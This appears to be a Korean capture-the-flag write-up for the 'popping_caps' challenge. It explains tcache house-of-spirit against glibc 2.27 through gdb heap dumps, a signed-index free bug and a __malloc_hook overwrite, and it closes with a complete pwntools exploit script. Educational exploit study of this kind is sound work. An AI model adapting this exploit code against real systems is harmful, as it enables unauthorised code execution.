






# 취약점 분석

## 바이너리 분석

```cpp
gdb-peda$ checksec 
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : disabled
```

```cpp
./popping_caps: ELF 64-bit LSB shared object
x86-64, version 1 (SYSV), dynamically linked
interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0
BuildID[sha1]=0b94b47318011a2516372524e7aaa0caeda06c79, not stripped
```

## 바이너리 실행 결과

```cpp
Here is system 0x7fb836b4c4e0
You have 7 caps!
[1] Malloc
[2] Free
[3] Write
[4] Bye
Your choice:
```

- lib_system 주소가 노출되는 것을 확인할 수 있으며 4개의 옵션으로 해제 , 할당, 입력, 종료가 가능하다.

## 취약한 부분

### 메모리 주소 노출



- lib_system 주소를 노출시키는 것을 확인할 수 있다.

## main 함수 부분



## Bye 함수 부분



## Exploit Idea

- 라이브러리 주소가 노출이되어 있기 때문에 해당 바이너리가 7가지 작업 만 수행 할 수 있으므로 작업을 낭비할 필요가 없다.
- 라이브러리 버전은 2.27 버전이며 tcache를 사용하고 있다.
- 바이너리 분석 결과 UAF를 직접적으로 가능하지 않기 때문에 tcache poisoning이 불가능 하다.
- 우리는 Double free buf를 바탕으로 tcache dup을 사용할 수 있다.
- 힙의 어느 위치에서나 해제가 가능하므로 tcache house of spirit을 사용할 수 있다.
- security check로 인해 작성하려는 위치에 fake chunk을 만들어야 한다.
- house of spirit을 사용하여 `tcache_perthread_structs` 항목을 손상시키는 것이 방법이다.

## Exploit Scenario

1. 0x3a8 사이즈 동적 할당
2. tcahcebin (0x100) → 0x3a8 사이즈의 힙 해제후 tcache count 증가 로 인해 0x100 크기의 fake chunk의 size를 생성
3. -0x210 (House of Spirit)의 Integer issue를 사용하여 fake chunk를 해제한다.
4. 크기가 0xf8인 malloc은 첫 번째 tcache 항목 (size 0x20)에 포인터를 반환한다.
5. __malloc_hook의 포인터로 첫 번째 항목을 편집한다.
6. size 0x20인 malloc 에서 반환된 포인터는 __malloc_hook이 된다.
7. one_gadget으로 __malloc_hook에 overwrite 한다.

## tcache_perthread_struct

- `_int_malloc` 을 통해 `tcache_perthread_struct`가 할당되어 힙에 상주한다.
- counts 멤버를 손상 시킨다면 tcache poisoning이 수행하는 작업을 더 적은 단계로 수 행 할 수 있다.
- `tcache_perthread_struct` 는 single tcache thread의 body이며 두 개의 배열로 구성된다.
- 그 중에서 데이터 항목은 `tcache entries`, `TCACHE_MAX_BIN 총 개수(default 64개)` , `tcache counts` 배열은 각 single linked list의 메모리 블록 수를 나타낸다.

```cpp
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```

- struct의 single linked list의 최대 개수는 64개이며 single linked list에는 최대 7개의 메모리 블록이 있다.
- 수용할 수 있는 최대 메모리 블록 크기는 0x408($1032_(10)$) 이다.

```cpp
#if USE_TCACHE
/* We want 64 entries.  This is an arbitrary limit, which tunables can reduce.  */
# define TCACHE_MAX_BINS		64
# define MAX_TCACHE_SIZE	tidx2usize (TCACHE_MAX_BINS-1)

/* Only used to pre-fill the tunables.  */
# define tidx2usize(idx)	(((size_t) idx) * MALLOC_ALIGNMENT + MINSIZE - SIZE_SZ)

/* When "x" is from chunksize().  */
# define csize2tidx(x) (((x) - MINSIZE + MALLOC_ALIGNMENT - 1) / MALLOC_ALIGNMENT)
/* When "x" is a user-provided size.  */
# define usize2tidx(x) csize2tidx (request2size (x))

/* With rounding and alignment, the bins are...
   idx 0   bytes 0..24 (64-bit) or 0..12 (32-bit)
   idx 1   bytes 25..40 or 13..20
   idx 2   bytes 41..56 or 21..28
   etc.  */

/* This is another arbitrary limit, which tunables can change.  Each
   tcache bin will hold at most this number of chunks.  */
# define TCACHE_FILL_COUNT 7
#endif
```

## heap 순서 파악

- tcache_perthread_struct를 조작하기 위해서는 힙 순서를 파악해야 한다.
- 힙은 첫 번째 할당에서만 시작되므로 할당하고 분석



- 첫 번째 힙은 항상 tcache_perthread_struct 이다.
- 두 번째 힙 청크는 0x3a8 크기
- 마지막은 탑 청크로 분석된다.

```cpp
gdb-peda$ p *(struct tcache_perthread_struct *)0x5577632b8000
$1 = {
  counts = "\000\000\000\000\000\000\000\000Q\002", '\000' <repeats 53 times>, 
  entries = {0x0, 0x100, 0x0 <repeats 57 times>, 0x5577632b8260, 0x0, 0x0, 0x0, 0x0}
}
gdb-peda$ x/40gx 0x5577632b8000
0x5577632b8000: 0x0000000000000000      0x0000000000000251
0x5577632b8010: 0x0000000000000000      0x0000000000000000
0x5577632b8020: 0x0000000000000000      0x0000000000000000
0x5577632b8030: 0x0000000000000000      0x0000000000000000
0x5577632b8040: 0x0000000000000000      0x0000000000000100
0x5577632b8050: 0x0000000000000000      0x0000000000000000
0x5577632b8060: 0x0000000000000000      0x0000000000000000
0x5577632b8070: 0x0000000000000000      0x0000000000000000
0x5577632b8080: 0x0000000000000000      0x0000000000000000
0x5577632b8090: 0x0000000000000000      0x0000000000000000
0x5577632b80a0: 0x0000000000000000      0x0000000000000000
0x5577632b80b0: 0x0000000000000000      0x0000000000000000
0x5577632b80c0: 0x0000000000000000      0x0000000000000000
0x5577632b80d0: 0x0000000000000000      0x0000000000000000
0x5577632b80e0: 0x0000000000000000      0x0000000000000000
0x5577632b80f0: 0x0000000000000000      0x0000000000000000
0x5577632b8100: 0x0000000000000000      0x0000000000000000
0x5577632b8110: 0x0000000000000000      0x0000000000000000
0x5577632b8120: 0x0000000000000000      0x0000000000000000
0x5577632b8130: 0x0000000000000000      0x0000000000000000
```

- 0x3a8 만큼의 할당을 한후 해제를 하여 해당 tcache counter에 추가 된 것을 확인할 수 있다.

## fake chunk를 만들기 위해 malloc(0x3a8) 하는 이유



- house of spirit 공격 기법에 관한 것이며 tcachebin에 삽입 될 fake chunk를 해제하고 다음 malloc을 바탕으로 원하는 곳을 할당할 수 있다.

```cpp
gdb-peda$ x/100gx 0x5577632b8000
0x5577632b8000: 0x0000000000000000      0x0000000000000251
0x5577632b8010: 0x0000000000000000      0x0000000000000000
0x5577632b8020: 0x0000000000000000      0x0000000000000000
0x5577632b8030: 0x0000000000000000      0x0000000000000000
0x5577632b8040: 0x0000000000000000      0x0000000000000100
0x5577632b8050: 0x0000000000000000      0x0000000000000000
0x5577632b8060: 0x0000000000000000      0x0000000000000000
...
0x5577632b8210: 0x0000000000000000      0x00005577632b8260
0x5577632b8220: 0x0000000000000000      0x0000000000000000
0x5577632b8230: 0x0000000000000000      0x0000000000000000
0x5577632b8240: 0x0000000000000000      0x0000000000000000
0x5577632b8250: 0x0000000000000000      0x00000000000003b1
0x5577632b8260: 0x0000000000000000      0x0000000000000000
0x5577632b8270: 0x0000000000000000      0x0000000000000000
0x5577632b8280: 0x0000000000000000      0x0000000000000000
0x5577632b8290: 0x0000000000000000      0x0000000000000000
0x5577632b82a0: 0x0000000000000000      0x0000000000000000
0x5577632b82b0: 0x0000000000000000      0x0000000000000000
0x5577632b82c0: 0x0000000000000000      0x0000000000000000
0x5577632b82d0: 0x0000000000000000      0x0000000000000000
0x5577632b82e0: 0x0000000000000000      0x0000000000000000
0x5577632b82f0: 0x0000000000000000      0x0000000000000000
0x5577632b8300: 0x0000000000000000      0x0000000000000000
0x5577632b8310: 0x0000000000000000      0x0000000000000000
gdb-peda$ distance 0x5577632b8050 0x5577632b8260 
From 0x5577632b8050 to 0x5577632b8260: 528 bytes, 132 dwords
gdb-peda$
```

- `0x3a8` 크기의 동적 할당을 한 후 해제하여 해당 tcache 힙 청크가 생긴 것을 확인할 수 있으며 우리는 `0x100` 을 size로 두어 fake chunk를 만들어야 하기 때문에 528 바이트 차이나는 부분 `0x5577632b8050` 메모리 에 참조하여 해제를 진행한다.

## integer issue

```cpp
if ( v4 == 2 )
    {
      puts("Whats in a free: ");
      ptr = &v8[read_num()];
      free(ptr);
      if ( v8 == buf )
        buf = 0LL;
    }

__int64 read_num()
{
  char s; // [rsp+0h] [rbp-30h]
  unsigned __int64 v2; // [rsp+28h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  fgets(&s, 32, stdin);
  return atol(&s);
}
```

- read_num의 signed 처리를 진행하기 때문에 `v8` 주소 참조가 음수도 가능하여 다른 메모리 주소를 참조할 수 있다.
- `-0x210` 범위에 주소 번지를 해제하여 fake chunk를 구성 한다.
- fake chunk 크기에 맞게 끔 malloc(0xf8) 할당한다.

```cpp
gdb-peda$ tcachebins
tcachebins
0x100 [  1]: 0x55d0c72b0050 ◂— 0x0
0x3b0 [  1]: 0x55d0c72b0260 ◂— 0x0
```

## write(p64(malloc_hook))



- tcache_perthread_struct 의 head 영역의 0x20 크기 부분에 __malloc_hook 주소 가 삽입되 었기 떄문에 tcachebins를 확인한 결과 0x20으로 할당된 것을 확인할 수 있다.
- 해당 상태에서 0x10 크기로 할당을 받게 된다면 __malloc_hook 영역에 할당하여 원하는 값으로 조작할 수 있다.

```cpp
from pwn import *

# malloc
def malloc(data):
    sla("Your choice: ", str(1))
    sla("How many: ", str(data))
# free
def free(ptr):
    sla("Your choice: ", str(2))
    sla("Whats in a free: ", str(ptr))

# Write
def write(data):
    sla("Your choice: ", str(3))
    sa("Read me in: ", str(data))
if __name__ == '__main__':        
    context.log_level = 'debug'
    # context.arch = 'amd64'

    LOCAL = 1
    DEBUG = 0

    s       = lambda data               :p.send(str(data))       
    sa      = lambda delim,data         :p.sendafter(str(delim), str(data)) 
    sl      = lambda data               :p.sendline(str(data)) 
    sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data)) 
    r       = lambda num=4096           :p.recv(num)
    rn      = lambda                    :p.recvline()
    ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
    irt     = lambda                    :p.interactive()

    uu32    = lambda data   :u32(data.ljust(4, '\0'))
    uu64    = lambda data   :u64(data.ljust(8, '\0'))
    leak    = lambda name, addr :log.success('{} : {:#x}'.format(name, addr))

    if LOCAL:
        #p = process('./pwn',env={'LD_PRELOAD':'./libc-2.23.so'})
        p = process('./popping_caps')
        e = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
        # e = ELF('./popping_caps')
        # libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    else:
        p = remote('172.25.87.200', 8000)
        e = ELF('/lib/x86_64-linux-gnu/libc-2.27.so')
        #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    # lib leak
    ru("Here is system ")
    lib_system = int(rn().strip("\n"), 16)
    libc = lib_system-e.sym['system']
    malloc_hook = e.sym['__malloc_hook']+libc
    one_gadget = libc+0x10a45c

    leak("libc", libc)
    leak("malloc_hook", malloc_hook)
    leak("one_gadget", one_gadget)

    malloc(0x3a8)
    free(0)
    free(-0x210)
    malloc(0xf8)
    write(p64(malloc_hook))
    irt()
    malloc(0x10)
    write(p64(one_gadget))
```

```toc
```